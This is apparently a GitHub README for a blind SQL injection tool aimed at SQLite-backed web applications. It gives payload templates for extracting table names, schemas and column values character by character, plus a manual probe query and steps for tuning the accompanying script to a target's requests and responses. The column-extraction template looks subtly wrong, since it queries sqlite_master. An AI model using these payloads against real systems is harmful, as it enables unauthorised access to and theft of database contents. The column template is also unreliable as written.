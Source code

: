 ## SQLiteBLINDInjection <br/> [Author](https://github.com/aykutcanustun): aykutcanustun

## How To Set Queries:
To retrieve table names from database: <br/>
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),{},1)){} {} -- <br/><br/>
To retrieve table schema: <br/>
' or UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} -- <br/><br/>
To retrieve values inside column: <br/>
' or UNICODE(SUBSTR((SELECT $COLUMN_NAME FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} -- <br/><br/>
**Replace $TABLE_NAME and $COLUMN_NAME with data that you retrieved from privious query!**

## How To Set Varibles:
To use the script, you have to set varibles according to your request's header, data and response etc. <br/>
I marked these lines with comments in main.py! <br/><br/>
Replace "username" string with your request's data as below:
![request](https://github.com/aykutcanustun/SQLiteBLINDInjection/blob/master/request.png)

You have to try this query manually for see what is the reply: <br/>
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),1,1)) < 128 -- <br/><br/>

Replace "Data Sent!" string according to your manual request's reply:
![response](https://github.com/aykutcanustun/SQLiteBLINDInjection/blob/master/response.png)

